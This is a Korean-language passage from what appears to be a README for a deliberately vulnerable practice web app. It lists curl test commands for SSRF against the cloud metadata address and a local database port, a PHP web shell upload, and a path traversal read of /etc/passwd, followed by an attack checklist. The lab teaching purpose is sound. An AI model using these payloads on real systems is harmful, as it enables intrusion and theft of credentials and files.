 ### SSRF 테스트
```bash
# 내부 메타데이터 접근
curl -X POST http://localhost:5000/api/image/fetch \
  -H "Content-Type: application/json" \
  -d '{"url":"http://169.254.169.254/latest/meta-data/"}'

# 로컬 포트 스캔
curl -X POST http://localhost:5000/api/image/fetch \
  -H "Content-Type: application/json" \
  -d '{"url":"http://localhost:3306/"}'
```

### 파일 업로드 테스트
```bash
# PHP 웹쉘 업로드
echo '<?php system($_GET["cmd"]); ?>' > shell.php
curl -X POST http://localhost:5000/api/upload \
  -F "file=@shell.php" \
  -F "type=profile"

# Path Traversal
curl "http://localhost:5000/api/uploads/../../../etc/passwd"
```

---

## 📋 보안 체크리스트

실습 후 다음 항목들을 점검하여 취약점 이해도를 확인하세요:

- [ ] SQL Injection 공격 성공 여부
- [ ] XSS 페이로드 실행 확인
- [ ] SSRF를 통한 내부 서비스 접근
- [ ] 파일 업로드를 통한 웹쉘 설치
- [ ] 권한 상승 공격 시도
- [ ] 민감한 정보 노출 확인
- [ ] 비즈니스 로직 우회 시도

각 취약점에 대한 자세한 실습 방법은 [`/security/VULNERABILITIES.md`](../security/VULNERABILITIES.md)를 참조하세요.